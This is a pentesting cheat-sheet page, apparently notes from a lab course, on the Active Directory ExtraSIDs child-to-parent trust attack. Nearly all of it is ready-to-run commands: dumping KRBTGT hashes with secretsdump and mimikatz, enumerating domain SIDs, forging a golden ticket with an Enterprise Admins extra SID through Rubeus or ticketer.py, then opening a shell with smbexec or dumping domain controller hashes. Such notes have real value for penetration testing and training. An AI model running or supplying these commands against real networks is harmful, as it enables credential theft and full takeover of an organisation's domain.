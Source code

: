 # ExtraSIDs attack

### <mark style="color:yellow;">ExtraSIDs Attack from Windows</mark>

Domain Trusts - Child -> Parent. After compromising child domain add admin SID to a user for golden ticket.&#x20;

<details>

<summary>Requirements</summary>

```
The KRBTGT hash for the child domain
The SID for the child domain
The name of a target user in the child domain (does not need to exist!)
The FQDN of the child domain.
The SID of the Enterprise Admins group of the root domain.
With this data collected, the attack can be performed with Mimikatz.
```

</details>

#### Get the KRBTGT hash

```powershell
# With secretsdump
secretsdump.py htb-student_adm@10.129.180.47

# Or mimikatz
lsadump::dcsync /user:LOGISTICS\krbtgt
```

#### Get SID of child domain

```powershell
Get-DomainSID
```

#### Get FQDN of child domain

```powershell
Get-DomainTrust
```

#### SID of "Enterprise Admins" group of root domain

```powershell
Get-DomainGroup -Domain ZENCOROP.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

#### Request Golden Ticket

```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:ZEN.ZENCORP.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

### <mark style="color:yellow;">ExtraSIDs Attack from Linux</mark>

To gather all the information needed.

```bash
# Get KRBTGT
secretsdump.py logistics.zencorp.local/mczen@172.16.5.240 -just-dc-user zencorp/krbtgt

# Get SID
lookupsid.py logistics.zencorp.local/mczen@172.16.5.240 

# Get Enterprise Admins group SID
lookupsid.py logistics.zencorp.local/mczen@172.16.5.240

# Request a ticket with adding admin SID
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain-sid S-1-5-21-2806153819-209893948-922872689 -domain LOGISTICS.ZENCORP.LOCAL -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 mczen

# Connect or Dump hashes
KRB5CCNAME=mczen.ccache smbexec.py -k -no-pass ACADEMY-EA-DC01.ZENCORP.LOCAL
KRB5CCNAME=mczen.ccache secretsdump.py -k -no-pass ACADEMY-EA-DC01.ZENCORP.LOCAL
```

